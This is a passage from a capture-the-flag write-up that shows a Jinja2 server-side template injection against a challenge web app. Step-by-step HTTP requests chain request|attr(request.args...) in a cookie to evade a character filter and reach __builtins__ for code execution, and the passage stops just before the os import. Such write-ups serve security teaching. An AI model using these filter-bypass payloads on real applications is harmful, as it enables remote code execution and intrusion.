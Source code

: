 > Note: `%25` in URL encoding is `%`. However, the web application won't encode our input when it's checking the `banned_chars`.

Example of when our payload contains the above characters:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521123929.png)

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#filter-bypasses), we can bypass the filter via:**
```python
request|attr(request.args.c) #Send a param like "?c=__class__
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521124021.png)

Let's do this!

Since `request` object instance is not filtered, we can use that to gain RCE:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521124240.png)

**First, we'll pipe that `request` object to `attr(request.args.<GET_Parameter>)`. The `attr()` is to get an attribute of an object:**
```http
GET /?service=adminpage&a=application HTTP/1.1
Cookie: user={{request|attr(request.args.a)}}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521124755.png)

We now got the `Request.application` method!

**Then, we can use the `__globals__` attribute to find all the function's global variables:**
```http
GET /?service=adminpage&a=application&b=__globals__ HTTP/1.1
Cookie: user={{request|attr(request.args.a)|attr(request.args.b)}}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521124903.png)

In here, we see there's a `__builtins__` key. The value of `__builtins__` is normally either this module or the value of this module’s [`__dict__`](https://docs.python.org/3/library/stdtypes.html#object.__dict__ "object.__dict__") attribute.

Next, we need to get the `__builtins__` key.

However, we can't just use `request|attr(request.args.a)|attr(request.args.b){request.args.c}`, it'll fail.

**To solve that problem, we can use the `__getitem__` method. This method is used to get an item from the invoked instances' attribute:**
```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__ HTTP/1.1
Cookie: user={{request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)}}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521125400.png)

**We have the `__getitem__` method! Let's get the `__builtins__` attribute!**
```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__ HTTP/1.1
Cookie: user={{request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)}}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521125507.png)

**After getting the `__builtins__` attribute, we can now use `__import__` method to import any module!! Let's import the `os` module to execute OS command!**
```http
```